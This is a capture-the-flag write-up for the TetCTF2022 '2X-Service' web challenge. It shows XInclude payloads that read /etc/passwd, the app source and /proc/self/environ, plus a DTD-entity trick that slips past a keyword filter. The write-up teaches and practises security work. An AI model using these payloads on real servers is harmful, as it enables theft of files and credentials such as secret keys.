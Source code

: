 # TetCTF2022 - 2X-Service Writeup
This is a web challenge, we are greeted with a form that takes 2 inputs. the first seems to want an XPATH, and the second wants some arbitrary XML.

We can view the [source](https://drive.google.com/file/d/14Dxlqqvij9ttMIq2uEVzjzez0v4iPDd6/view?usp=sharing) by navigating to `/source`.

## Reviewing Source Code
The most important piece of code from this codebase is the following, this method handles our input form request.
```py
@socketio.on('message')
def handle_message(xpath, xml):
	if len(xpath) != 0 and len(xml) != 0 and "text" not in xml.lower():
		try:
			res = ''
			root = ElementTree.fromstring(xml.strip())
			ElementInclude.include(root)
			for elem in root.findall(xpath):
				if elem.text != "":
					res += elem.text + ", "
			emit('result', res[:-2])
		except Exception as e:
			emit('result', 'Nani?')
	else:
		emit('result', 'Nani?')
```
From what it seems, python will parse our xml, and then return a message corresponding to the value we select with our XPATH input, we can prove this with the following PoC.

**XPATH**
```plaintext
person
```

**XML**
```xml
<root>
<person>
pog
</person>
</root>
```

![](img/tetctf-2022-2x-service-initial-poc.png)

The main issue here, is the `ElementInclude.include(root)` line, this processes XInclude elements, and if we recreate this locally, we can get LFI via the following payload (I have disabled the "text" WAF)
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="/etc/passwd"/>
</x>
</root>
```

## Bypassing the WAF
Here there is a very simplistic WAF implemented, in that the given XML content cannot contain the string "text", this can be bypassed by creating our own resources and concatenating strings.

Here we specify two resources, splitting up "text" into two parts.
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>
```

We can then include these in the parse attribute of our `x` element:
```xml
<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/etc/passwd"/>
</x>
</root>
```

## Getting The Flag
We can then use this to read app.py on the remote server with the following payload:
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="./app.py"/>
</x>
</root>
```

We are after the flask `SECRET_KEY`, however when we read the remote `app.py`, we see the following:
```py
app.config['SECRET_KEY'] = os.environ.get('KEY')
```

To read the environmental variables of the current process, we can read `/proc/self/environ`, and we get the following output (payload given too):

**XPATH**
```xml
x
```

**XML**
```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE resources [
  <!ENTITY t "te">
  <!ENTITY tt "xt">
]>

<root>
<x xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="&t;&tt;" href="/proc/self/environ"/>
</x>
</root>
```

**Output**
```bash
SHELL=/bin/bash
[...SNIP...]
FLAG=TetCTF{Just_Warm_y0u_uP_:P__}
```
FLAG: `TetCTF{Just_Warm_y0u_uP_:P__}`